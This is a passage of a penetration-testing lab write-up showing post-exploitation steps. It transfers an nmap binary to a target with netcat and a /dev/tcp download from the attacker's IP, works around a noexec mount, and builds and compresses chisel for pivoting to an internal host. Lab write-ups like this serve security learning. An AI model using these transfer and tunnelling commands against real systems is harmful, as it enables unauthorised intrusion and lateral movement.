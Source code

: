 ```
Open: 80
```

If you didn't want to use bash to portscan you could always search for "static build nmap github" [^2]

	nc -lvnp 80 < nmap						// kali
	cat < /dev/tcp/10.10.16.12/80 > nmap	// target
	chmod +x nmap

	./nmap	// permission denied
	mount

```
shm on /dev/shm ... noexec
```

	mv nmap /tmp
	./nmap -p 80 172.19.0.3

We need to get to 172.19.0.3 but we don't have SSH. Let's use chisel.

Build chisel:

	git clone https://github.com/jpillora/chisel.git
	cd chisel
	go build		// from within git cloned directory 
	du -hs chisel	// 11M

Build smaller:

	go build -ldflags="-s -w"
	du -hs chisel	// 7.8M chisel

```
-s	// disable symbol table
-w	// disable DWARF generation
```

Pack it smaller:

	upx brute chisel
	du -hs chisel	// 3.0M chisel

```
brute	// Quickly get the best compression ratio
```

	./chisel

```
Usage: chisel [command] [--help]

  Version: 0.0.0-src (go1.17.5)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel
```


[^1]: https://github.com/rebootuser/LinEnum.git
[^2]: https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap
[^3]: https://github.com/jpillora/chisel/releases/
[^4]: https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html